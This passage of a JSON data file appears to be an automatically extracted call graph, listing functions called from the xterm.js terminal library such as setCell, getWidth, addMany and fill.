"insertCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "deleteCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cleanupMemory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNoBgTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyCellsFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyCellsFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyCellsFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "replaceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fillViewportRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "alt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "active"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activateNormalBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearAllMarkers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "activateAltBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fillViewportRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCombined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCombined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setFromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getAsCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "wcwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleUserInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "writeSync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_action"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_action"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_innerWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unhook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unhook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handlerFb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addParam"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "put"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unhook"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMany"}, {"confidence": "EXTRACTED", 